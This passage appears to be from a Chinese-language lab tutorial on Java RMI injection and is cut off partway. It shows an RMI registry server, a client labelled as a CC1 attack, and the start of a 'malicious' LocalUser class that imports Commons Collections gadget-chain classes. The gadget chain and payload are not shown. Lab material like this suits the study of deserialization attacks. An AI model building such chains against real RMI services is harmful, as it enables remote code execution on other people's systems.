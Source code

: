 

```
package rmi_injection_labs1.server;

import rmi_injection_labs1.service.LocalUser;
import rmi_injection_labs1.service.User;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.concurrent.CountDownLatch;

public class LocalUserServer {
    public static void main(String[] args) throws Exception {
        User liming = new LocalUser("liming",15);
        Registry registry = LocateRegistry.createRegistry(1099);
        registry.bind("user",liming);
        System.out.println("registry is running...");
        System.out.println("liming is bind in registry");
        CountDownLatch latch=new CountDownLatch(1);
        latch.await();
    }
}

```

**客户端**



```
package rmi_injection_labs1.client;

import rmi_injection_labs1.service.User;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class LocalUserServerAttack2ClientByCC1 {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        User user = (User) registry.lookup("user");
        user.getUser();
    }
}

```

**恶意类LocalUser**



```
package rmi_injection_labs1.service;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.lang.annotation.Documented;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;
import java.util.HashMap;
import java.util.Map;
public class LocalUser extends UnicastRemoteObject implements User {
    public String name;
    public int age;
```